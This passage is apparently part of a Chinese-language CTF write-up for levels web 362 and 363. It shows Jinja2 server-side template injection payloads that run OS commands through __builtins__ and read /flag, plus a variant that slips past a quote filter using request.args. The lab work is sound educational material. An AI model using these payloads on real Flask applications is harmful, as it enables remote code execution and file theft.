 ### [web 362](#toc_web-362)

上面的 payload 不管用了，这里可以用一个通用 payload  
原理就是找到含有\_\_builtins\_\_的类，然后利用。

```bash
{{c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('tac /flag').read()") }}
```

[![在这里插入图片描述](assets/1698900310-5c1eeca3076ed853e0a16903e1507125.png)](https://storage.tttang.com/media/attachment/2022/08/14/5a13b746-0cde-4bc3-a01d-6e1f059ae20b.png)  
也可以这样

```bash
{{c.__init__.__globals__['__builtins__'].open('/flag', 'r').read()}}
```

[![在这里插入图片描述](assets/1698900310-3f293229a1b6cc230dca501bcd57e443.png)](https://storage.tttang.com/media/attachment/2022/08/14/df2a5c3d-37f5-4bbc-b5f5-eab4104e4472.png)

### [web 363](#toc_web-363)

过滤了单引号和双引号，我们这里可以利用变量赋值，再引用变量即可  
args 只获取地址栏中参数，不分 get 请求方式还是 post 请求方式。 
原 payload

```bash
{{c.__init__.__globals__['__builtins__'].open('/flag', 'r').read()}}
```

经过简单修改后的 payload

```bash
a=__builtins__&b=/flag&c=r&name={{c.__init__.__globals__[request.args.a].open(request.args.b, request.args.c).read()}}
```
